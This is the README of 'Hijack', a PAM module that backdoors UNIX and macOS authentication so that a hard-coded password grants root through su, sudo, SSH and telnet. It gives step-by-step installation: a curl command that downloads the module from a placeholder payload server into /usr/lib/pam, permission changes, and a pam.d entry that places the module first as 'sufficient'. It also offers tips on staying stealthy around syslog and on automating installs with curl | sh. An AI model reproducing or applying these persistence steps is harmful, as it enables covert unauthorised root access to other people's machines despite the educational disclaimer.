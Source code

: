 # Hijack
Hijack is a PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 - This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.

 - Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it – you can try this yourself if you'd like: just run `strings /usr/lib/pam/hijack.so` and you should see your password in the output. Bad design, I know. I'm just too lazy to fix it.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but alas I've had several requests for the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically function on any UNIX system that employs PAM authentication.

IMPORTANT: Hijack does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

**(1)** Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

**(2)** Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `hijack.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     hijack.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through hijack, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as hijack will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out!
```
$ su
Password:
#
```
After providing the hijack password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.

